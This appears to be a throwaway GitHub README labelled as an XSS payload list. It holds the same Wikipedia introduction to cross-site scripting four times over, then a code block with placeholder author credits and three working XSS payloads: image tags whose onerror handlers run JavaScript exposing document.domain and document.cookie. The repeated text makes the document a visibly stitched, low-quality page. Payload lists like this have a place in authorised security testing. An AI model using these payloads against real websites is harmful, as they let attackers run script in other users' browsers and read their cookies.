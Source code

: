# myTest
#### XSS Payload List :

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Test -->
<!--      Linkedin : https://www.linkedin.com/in/test/ -->
<!--        GitHub : https://github.com/test/ -->
<!--       Twitter : https://twitter.com/test -->
<!--        Medium : https://medium.com/@test -->


<img src="dummy.jpg" onerror="javascript:alert(document.domain)"></img>
<image src="http://github.com/dummy.gif" onerror="javascript:alert(document.cookie)"></image>
<img src="file:///dummy.jpg" onerror="javascript:alert(document.domain)"></img>
